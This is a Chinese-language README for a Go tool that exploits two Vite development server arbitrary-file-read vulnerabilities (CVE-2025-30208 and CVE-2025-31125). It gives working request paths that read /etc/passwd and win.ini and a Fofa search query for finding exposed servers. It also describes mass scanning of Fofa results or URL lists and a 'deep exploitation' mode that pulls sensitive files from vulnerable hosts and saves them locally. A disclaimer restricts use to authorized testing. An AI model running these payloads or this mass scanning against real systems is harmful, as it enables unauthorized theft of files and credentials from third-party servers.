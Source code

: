 # CVE-2025-30208  AND  CVE-2025-31125
针对CVE-2025-30208和CVE-2025-31125的简单漏洞利用
## 漏洞介绍
两个漏洞都是关于Vite开发服务器任意文件读取漏洞，这两个漏洞覆盖面大且利用简单不受限制。

### 漏洞POC：
CVE-2025-30208：
>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

CVE-2025-31125
> Windows: /@fs/C://windows/win.ini?import&?inline=1.wasm?init
>
> Linux: /@fs/etc/passwd?import&?inline=1.wasm?init

路径中的/@fs可以不需要携带。

### Fofa测绘语法：
> body="/@vite/client"

## 脚本使用介绍
### 脚本特点
1. 可以联动fofa进行批量利用
2. 会解析存在漏洞的精确路径并进行深度利用

### 编译说明
go版本：`go 1.20以上版本`

进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o ViteVulScan -ldflags="-s -w" -trimpath .

` ./CVE_2025_3020`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍



> Usage of ./ViteVulScan:

| 参数                      |                                        描述                                        |
|-------------------------|:--------------------------------------------------------------------------------:|
| -cve                    |        使用哪个cve漏洞进行检测。支持CVE_2025_30208和CVE_2025_31125。默认使用CVE_2025_30208。         |
| -fofa                   |                        指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测                         |
| -u    \|    -url        |                                 指定单个url目标，对其进行检测                                 |
| -f     \|     -filename |                               指定一个文件名，批量检测其中的url地址                               |
| -e                      | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

### 说明

1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ````
2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。 
3. 同时支持对linux和windows平台进行利用，利用的字典分别为linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。

# 免责声明
本工具仅用于安全研究和授权测试，请勿用于非法用途。使用本工具进行任何未经授权的测试所造成的后果由使用者自行承担。

# 更新
## 3月29日首次发布：
- 实现fofa进行资产搜集功能
- 实现用CVE_2025_30208漏洞进行批量验证
- - 添加命令行解析功能
## 4月1日：
- 实现深度利用功能
## 4月2日：
- 添加对刚出来的CVE_2025_31125漏洞的验证。